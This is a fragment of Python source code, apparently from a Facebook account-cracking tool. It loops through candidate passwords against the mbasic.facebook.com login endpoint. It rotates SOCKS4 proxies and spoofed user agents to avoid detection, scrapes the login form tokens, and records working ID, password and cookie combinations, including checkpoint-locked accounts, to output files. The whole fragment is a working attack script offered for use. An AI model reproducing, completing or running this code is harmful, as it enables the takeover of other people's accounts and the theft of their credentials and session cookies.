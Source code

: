 	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,  image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={ 'authority':'mbasic.facebook.com',
           'accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
           'accept-language':'en-US,en;q=0.9',
           'cache-control':'max-age=0',
		   'referer':'https://mbasic.facebook.com/',
           'sec-ch-prefers-color-scheme':'light',
           'sec-ch-ua':'"Not:A-Brand";v="99","Chromium";v="112"',
           'sec-ch-ua-full-version-list':'"Not:A-Brand";v="99.0.0.0","Chromium";v="112.0.5615.137"',
           'sec-ch-ua-mobile':'?1',
           'sec-ch-ua-platform':'"Android"',
           'sec-ch-ua-platform-version':'"10.0.0"',
           'sec-fetch-dest':'document',
           'sec-fetch-mode':'navigate',
           'sec-fetch-site':'same-origin',
           'sec-fetch-user':'?1',
           'upgrade-insecure-requests':'1',
           'user-agent':'Mozilla/5.0 (Mobile; rv:48.0; A405DL) Gecko/48.0 Firefox/48.0 KAIOS/2.5',
           'viewport-width':'980'}
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				
				print(f'\r{K} [ JEERY❌CP ] ID : {idf}  [+] PASSWORD : {pw}{N} ')       
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{H} [ JEERY✅OK ]\n ID : {idf}   [+] PASSWORD : {pw}      [+] COOKIES : {kuki}')
				#
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				break
			elif "c_user" in po.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{H} [ JEERY✅OK ]\n ID : {idf}   [+] PASSWORD : {pw}      [+] COOKIES : {kuki}')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				break